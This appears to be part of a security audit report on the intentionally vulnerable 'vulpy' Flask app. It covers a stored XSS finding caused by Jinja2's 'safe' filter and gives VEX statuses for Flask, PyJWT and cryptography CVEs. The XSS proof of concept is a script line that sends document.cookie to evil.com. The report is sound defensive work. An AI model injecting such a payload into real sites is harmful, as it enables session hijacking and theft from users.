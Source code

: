 **Affected Components:**
- File path: `/src/vulpy/bad/templates/posts.view.html`
- Line numbers: 22
- Template: `posts.view.html`

**Vulnerability Description:**
The application renders user-supplied content without proper HTML escaping by using the Jinja2 `safe` filter, which explicitly disables automatic HTML escaping. This allows attackers to inject arbitrary JavaScript code into pages that will execute in other users' browsers.

**Proof of Concept:**
```html
<!-- Attacker posts this content -->
<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
```

**Business Impact:**
Compromise of user sessions, potential data theft, and unauthorized actions performed in the victim's context.

**Technical Risk:**
- Session hijacking through cookie theft
- Credential harvesting through fake login forms
- Execution of arbitrary JavaScript in users' browsers

**Remediation Steps:**
1. Remove the `| safe` filter to enable automatic HTML escaping:
```html
<li><span class="w3-h3">{{ post.text }}</span></li>
```

**Fix Status:** Planned
**Verification:** Pending implementation

[Detailed findings for additional vulnerabilities continue...]

## Phase 3: Exploitability Analysis and VEX Generation

### VEX Status for Identified CVEs

#### CVE-2023-30861 (Flask)
- **Status:** Affected
- **Justification:** The application uses Flask 2.1.1 which has this vulnerability. The application also sets `session.permanent = True` in the session handling code, making it vulnerable.
- **Exploitability:** High - The application is a web application behind a proxy server.
- **Remediation:** Upgrade Flask to version 2.3.2 or 2.2.5.

#### CVE-2022-29217 (PyJWT)
- **Status:** Affected
- **Justification:** The application uses PyJWT 2.0.0 and does not explicitly specify algorithms when validating JWT tokens.
- **Exploitability:** Medium - Requires knowledge of the application's JWT usage patterns.
- **Remediation:** Upgrade PyJWT to version 2.4.0 or newer.

#### CVE-2023-38325 (cryptography)
- **Status:** Not Affected
- **Justification:** While the dependency is vulnerable, the application doesn't use SSH certificates functionality.
- **Exploitability:** Low - The vulnerable code path is not used in the application.
